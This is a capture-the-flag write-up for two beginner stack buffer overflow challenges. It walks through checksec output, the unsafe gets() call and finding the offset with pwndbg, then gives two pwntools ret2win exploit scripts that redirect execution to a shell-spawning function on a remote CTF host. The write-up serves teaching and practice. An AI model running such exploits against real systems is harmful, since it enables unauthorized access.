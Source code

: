 ```python
```

### Overflow

Our first buffer overflow challenge! The program is extremely simple and simply asks us for input.
```
Enter some input!

```

With any buffer overflow, I like to check the file protections to see what is possible and it looks like the world is out oyster except with shellcode injection.
```
└─$ checksec --file=overflow
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   66 Symbols	  No	0		1		overflow
```

In the decompilation, we see that the program uses the ever feared ```gets()``` function to recieve our iput. We also see that there is a function called ```get_flag```that is not called in ```main``` which opens us a shell. That will be the address we return to. 

By using the trusty ```pwndbg```, we can set a break point at the return instruction and use the ```cyclic`` and ```cyclic -l``` commands to get our offset which in this case is 120. After that, we just copy and paste the ```get_flag``` function address right from binary ninja.
```python
#!/usr/bin/env python3

from pwn import *

flag_func = 0x00401176
offset = 120

payload = b'A'*offset + p64(flag_func)

r = remote('forever.isss.io', 1302)

r.recvline()
r.sendline(payload)

r.interactive()
```

### Jump

This is pretty much the same challenge as Overflow, so I wil simply show the exploit.
```python
#!/usr/bin/env python3

from pwn import *

flag_func = 0x004011c7
offset = 120

payload = b'A'*offset + p64(flag_func)

r = remote('forever.isss.io', 1303)

r.recvline()
r.sendline(payload)

r.interactive()
```
